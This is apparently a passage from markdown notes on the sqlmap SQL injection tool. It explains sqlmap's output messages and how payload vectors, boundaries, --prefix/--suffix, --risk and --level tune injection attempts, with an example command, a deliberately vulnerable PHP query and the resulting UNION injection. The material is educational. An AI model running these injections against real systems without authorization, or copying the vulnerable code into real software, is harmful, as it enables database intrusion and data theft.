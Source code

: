 | Time-based comparison statistical model<br>         | `time-based comparison requires a larger statistical model, please wait........... (done)`                                                                                                                   | SQLMAP uses time based comparison statistical model.<br>This model involves sending various SQL payloads and measuring the time it takes for the server to respond, which can indicate whether the injected SQL query caused a delay.                                                             |
| Extending UNION query injection technique tests<br> | `automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found`                                                                        | SQLMap is broadening its testing scope by extending the UNION query injection technique tests.                                                                                                                                                                                                    |
| Technique appears to be usable<br>                  | `ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test` | SQLMap has determined that a particular injection technique is suitable for testing. This message indicates that SQLMap has found a method that it believes can potentially be used to exploit SQL vulnerabilities within the application.                                                        |
| Parameter is vulnerable<br>                         | `GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]`                                                                                                                   | SQLMap has identified a parameter within the target application that is susceptible to SQL injection attacks.                                                                                                                                                                                     |
| Sqlmap identified injection points<br>              | `sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:`                                                                                                                    | SQLMap has successfully located injection points within the target application.                                                                                                                                                                                                                   |
| Data logged to text files                           | `fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'`                                                                                                                        | SQLMap has recorded data related to its testing and analysis in text files.                                                                                                                                                                                                                       |


## Attack Tuning

there are options to fine-tune the SQLi injection attempts to help SQLMap in the detection phase. Every Payload sent to target consist of 

1. vector (e.g., `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.
2. boundaries (e.g. `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Vulnerable Code :

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

SQL Code. :

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

**Risk & Level** 

This parameters controll aggressiveness of sql injection process.
`--risk` : 

- Risk level of sql injection tests to be performed.
- Range 1 to 3 ( default 1)
- Increasing the risk level increases the likehood of detecting SQL injection but also increase the chance of causing disruption to target.
`--level` :
- This parameter determines the intensity of the SQL injection tests
- Range 1 to 5 (default 1)
- A higher level indicates more extensive and comprehensive testing but also increases the likelihood of causing unintended consequences.


## Advance Attack Tuning
